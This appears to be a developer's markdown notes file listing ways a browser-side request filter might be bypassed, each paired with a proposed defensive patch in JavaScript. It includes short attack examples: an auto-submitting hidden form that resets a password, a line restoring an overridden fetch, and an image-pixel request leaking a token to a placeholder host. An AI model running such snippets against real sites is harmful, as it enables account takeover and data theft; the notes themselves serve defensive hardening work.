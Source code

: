 # POSSIBLE BYPASSES - FIXES WILL BE IMPLEMENTED WITH TIME.


## 1.  Directly using <form> submissions

```html
<form action="/user/12345/password-reset/" method="POST">
  <input type="hidden" name="new_password" value="malicious123">
</form>
<script>document.forms[0].submit()</script>

```

Idea: Override HTMLFormElement.prototype.submit and intercept submit events globally:

```js
const originalSubmit = HTMLFormElement.prototype.submit;
HTMLFormElement.prototype.submit = function() {
    const action = this.action;
    if (!isAllowed(action) || isPasswordEndpoint(action)) {
        logBlockedRequest('form submit', action);
        throw new Error(`Blocked form submission to ${action}`);
    }
    return originalSubmit.apply(this, arguments);
};

document.addEventListener('submit', function(e) {
    const action = e.target.action;
    if (!isAllowed(action) || isPasswordEndpoint(action)) {
        e.preventDefault();
        logBlockedRequest('form submit', action);
    }
}, true);

```


## 2. Using iframe injection with same-origin forms
Idea: Deny iframe usage (troublesome to implement, need to write further logic for webgl & other site elements)

```js
if (window.top !== window.self) {
    console.warn('[Security] Prevented iframe embedding.');
    window.top.location = window.location.href;
}

```


## 3. Blob or Object URLs for code injection
An attacker could generate a malicious Blob or data: URL that executes fetch/XHR after being injected dynamically into the DOM.

Idea: Monitor dangerous element types like <script>, <iframe>, or <a> with suspicious hrefs

```js
new MutationObserver((mutations) => {
    mutations.forEach(m => {
        m.addedNodes.forEach(node => {
            if (node.tagName === 'SCRIPT' && node.src && !isAllowed(node.src)) {
                logBlockedRequest('script injection', node.src);
                node.remove();
            }
        });
    });
}).observe(document.documentElement, { childList: true, subtree: true });

```

## 4. Tampering with binding

```js
window.fetch = realFetch; // override the patch

```

NOT FOOLPROOF IDEA: Freeze or proxy the critical API
```js
Object.defineProperty(window, 'fetch', {
    value: window.fetch,
    writable: false,
    configurable: false
});
```

## 5. Custom transport layers (e.g. beacon, iframe postMessage)
## 6. Using non-standard header names
## 7. Data-exfil via DNS or image pixels
Even without fetch, an attacker can leak data via:
```js
new Image().src = "https://example.com/leak?token=xyz";
```
IDEA:  Patch Image, document.createElement('img'), and possibly setAttribute('src').
